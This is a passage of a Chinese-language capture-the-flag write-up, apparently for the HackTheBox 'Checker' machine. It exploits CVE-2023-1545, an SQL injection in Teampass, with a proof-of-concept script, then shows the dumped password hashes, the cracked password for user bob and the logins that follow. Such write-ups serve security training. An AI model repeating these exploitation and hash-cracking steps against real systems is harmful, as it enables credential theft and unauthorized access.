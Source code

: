 
## CVE-2023-1545

关注到**8080**端口上开放的是**Teampass**服务

搜索到了一个**SQL**注入的**CVE**漏洞

- [SQL Injection in nilsteampassnet/teampass | CVE-2023-1545 | Snyk](https://security.snyk.io/vuln/SNYK-PHP-NILSTEAMPASSNETTEAMPASS-3367612)

```
[root@kali] /home/kali/Checker  
❯ ./poc.sh http://checker.htb:8080/                                                                                                                      ⏎
There are 2 users in the system:
admin: $2y$10$lKCae0EIUNj6f96ZnLqnC.LbWqrBQCT1LuHEFht6PmE4yH75rpWya
bob: $2y$10$yMypIj1keU.VAqBI692f..XXn0vfyBL7C1EhOs35G59NxmtpJ/tiy
```

使用**john**进行破解得到**bob**的密码

```
bob:cheerleader
```

可以直接登录到后台

![](./images/image-152.png)

拿到**bob**的密码，可以返回到**80**端口上登录

![](./images/image-153.png)
